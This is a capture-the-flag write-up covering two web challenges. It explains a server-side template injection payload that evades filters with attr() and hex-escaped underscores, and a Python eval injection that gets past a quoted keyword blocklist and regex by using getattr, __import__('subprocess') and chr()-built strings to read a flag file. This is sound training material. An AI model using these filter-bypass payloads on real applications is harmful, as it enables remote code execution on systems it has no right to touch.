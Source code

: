 Why did this work?

This payload is quite similar to what we have used in SSTI1

```jsx
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

### 🔓 Why it works (bypass details):

- **Filters block `__globals__`, `__import__`, etc.** → But you **bypassed** using:
    - `attr()` instead of dot access
    - hex-encoded `__` → `\x5f\x5f` (which isn't detected by basic filters)
- **All this stays inside `{{ ... }}`** so template syntax is never broken.

---

## 3v@l

### Description

> ABC Bank's website has a loan calculator to help its clients calculate the amount they pay if they take a loan from the bank. Unfortunately, they are using an `eval` function to calculate the loan. Bypassing this will give you Remote Code Execution (RCE). Can you exploit the bank's calculator and read the flag?
> 
> 
> Additional details will be available after launching your challenge instance.
> 

### Solution

- On opening the site, there is a calculator that works fine.
- i have gone through the source code and there are some comments.

```html
<!--
    TODO
    ------------
    Secure python_flask eval execution by 
        1.blocking malcious keyword like os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind
        2.Implementing regex: r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'
-->
```

- These give us a huge insight on what we have to bypass without testing out different keywords

Payload

```python
getattr(__import__(‘subprocess’), ‘check_output’)([chr(99)+chr(97)+chr(116),chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)])
```

- this payload is equal to
- **import**(‘subprocess’)
- using getattr instead for __import__(subprocess).check_output()
- Obfuscating the main cat flag.txt with chr()
